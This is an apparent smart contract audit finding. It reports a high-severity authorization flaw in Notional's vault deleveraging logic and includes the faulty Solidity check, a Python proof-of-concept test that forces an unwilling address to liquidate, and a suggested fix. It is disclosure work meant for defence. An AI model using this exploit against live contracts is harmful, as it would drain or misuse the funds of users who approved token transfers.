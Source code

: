 Arbitrary-Execution

high

# When `ONLY_VAULT_DELEVERAGE` is enabled a vault can force an arbitrary address to liquidate an unhealthy vault account

## Summary
When `ONLY_VAULT_DELEVERAGE` is enabled a vault can force an arbitrary address to liquidate an unhealthy vault account

## Vulnerability Detail
When the `ONLY_VAULT_DELEVERAGE` flag is set, only the vault address itself can call `deleverageAccount` in `VaultAccountAction.sol`. This is enforced via the `_authenticateDeleverage` function:

```solidity
// Authorization rules for deleveraging
if (vaultConfig.getFlag(VaultConfiguration.ONLY_VAULT_DELEVERAGE)) {
    require(msg.sender == vault, "Unauthorized");
} else {
    require(msg.sender == liquidator, "Unauthorized");
}
```

However, inside the `if` block when the `ONLY_VAULT_DELEVERAGE` flag is set, the `require` statement only checks that `msg.sender == vault`. This check is different from the other check in the `else` block as it does not check that the passed-in `liquidator` address is also the vault address. This means the vault address can supply _any_ address as the liquidator, which is ultimately the address that has to pay the token amount to liquidate an unhealthy vault account. As long as the unwilling liquidator meets the following conditions it can be forced to liquidate accounts by the vault:

1. The liquidator has enough of the underlying tokens necessary for liquidation.
2. The liquidator has approved the Notional proxy address with enough tokens necessary for liquidation.
3. The liquidator does not already have a position in the vault whose maturity is different from the one of the unhealthy account.

## Impact
A vault can force _any_ address to liquidate an unhealthy vault account so long as the above conditions are met, even if the liquidation would be unprofitable for the liquidator.

## Code Snippet
https://github.com/notional-finance/contracts-v2/blob/cf05d8e3e4e4feb0b0cef2c3f188c91cdaac38e0/contracts/external/actions/VaultAccountAction.sol#L343-L348

PoC (add to `tests/stateful/vaults/test_vault_deleverage.py`):
```python3
def test_deleverage_account_from_vault_with_different_account(environment, accounts, vault):
    environment.notional.updateVault(
        vault.address,
        get_vault_config(currencyId=2, flags=set_flags(0, ENABLED=True, ONLY_VAULT_DELEVERAGE=1)),
        100_000_000e8,
    )
    maturity = environment.notional.getActiveMarkets(1)[0][1]
    vaultAccount = accounts.at(vault.address, force=True)

    # The vault account does not have any DAI/cDAI that would be necessary to liquidate an account
    assert environment.token["DAI"].balanceOf(vaultAccount) == 0
    assert environment.cToken["DAI"].balanceOf(vaultAccount) == 0

    environment.notional.enterVault(
        accounts[1], vault.address, 50_000e18, maturity, 200_000e8, 0, "", {"from": accounts[1]}
    )

    vault.setExchangeRate(0.95e18)

    accountInfo = environment.notional.getVaultAccount(accounts[2], vault)
    assert accountInfo["maturity"] == 0

    # Notice how the liquidator here is accounts[2], but the caller is the vault account.
    # accounts[2] meets the 3 requirements:
    # 1) holds enough DAI/cDAI to liquidate an account
    # 2) has approved the Notional proxy to transfer tokens (maybe they are interacting with other
    #    functionality within Notional)
    # 3) does not currently hold a maturity in the vault
    environment.notional.deleverageAccount(
        accounts[1], vault.address, accounts[2], 1_000e8, True, "", {"from": vaultAccount}
    )

    accountInfo = environment.notional.getVaultAccount(accounts[2], vault)
    # accounts[2] now has a position in the vault due to the forced liquidation
    assert accountInfo["maturity"] != 0
```

## Tool used

Manual Review

## Recommendation
Consider adding a check to `_authenticateDeleverage` to ensure that when the `ONLY_VAULT_DELEVERAGE` flag is set the vault account can only set the liquidator to be itself or its owner address.
